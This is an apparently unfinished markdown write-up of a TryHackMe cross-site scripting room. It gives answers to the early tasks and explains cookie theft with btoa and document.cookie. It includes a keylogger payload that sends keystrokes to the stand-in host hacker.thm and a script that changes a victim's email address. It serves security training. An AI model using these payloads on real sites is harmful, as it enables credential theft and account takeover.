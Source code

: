 ![Background](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/03376575e888fd097280c51469c29fbc.png)

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/c1c509a263e7a42bece2f0b77fd1ba1b.png" width="200" height="200" align="left">

# Cross-Site Scripting

**Learn how to detect and exploit XSS vulnerabilities, giving you control of other visitor's browsers.**

**If you want to check out the room [click here](https://tryhackme.com/room/xssgi)**

---

<br>

**Table of Contents**

- [Cross-Site Scripting](#cross-site-scripting)
  - [Task 1 Room Brief](#task-1-room-brief)
  - [Task 2 XSS Payloads](#task-2-xss-payloads)
  - [Task 3 Relfected XSS](#task-3-relfected-xss)
  - [Task 4 Stored XSS](#task-4-stored-xss)
  - [Task 5 DOM Based XSS](#task-5-dom-based-xss)
  - [Task 6 Blind XSS](#task-6-blind-xss)
  - [Task 7 Perfecting your payload](#task-7-perfecting-your-payload)
  - [Task 8 Practical Example (Blind XSS)](#task-8-practical-example-blind-xss)

## Task 1 Room Brief

**What does XSS stand for?**

    Cross-Site Scripting

## Task 2 XSS Payloads

**Which document property could contain the user's session token?**

    document.cookie

**Which JavaScript method is often used as a Proof Of Concept?**

    alert

btoa()

: Is a function that accepts javascript string as an parameter and base64 encodes it in order to make it safe for a browser to transport. This along with the `document.cookie` parameter an attacker can steal a victims cookie session in order to login as that user without knowing the credentials.

📰 **Note:** Javascript can be used in order to set a keylogger on the victim site thus giving the attacker the chance to passively gather user keystrokes with the goal of obtaining credentials. An example line for a XSS keylogger may look like this:

```js
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

Business Logic attacks

: These are flaws in the original design and implementation of the web app that allow an attaker to be able to exectue unintended behavior. This can be used to essentially put the attacker as a Man In The Middle between the user and the application itself. An example of this in terms of XSS would be as follows:

```js
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Where the `user.changeEmail()` would be a function within the application that would enable the attaker to change the official email of the site to one of their control thus potentially posing as a help desk or customer support for the user and social engineering the victim into divulging information/credentials giving access over the victims account.

## Task 3 Relfected XSS

**Where in an URL is a good place to test for reflected XSS?**

## Task 4 Stored XSS

## Task 5 DOM Based XSS

## Task 6 Blind XSS

## Task 7 Perfecting your payload

## Task 8 Practical Example (Blind XSS)
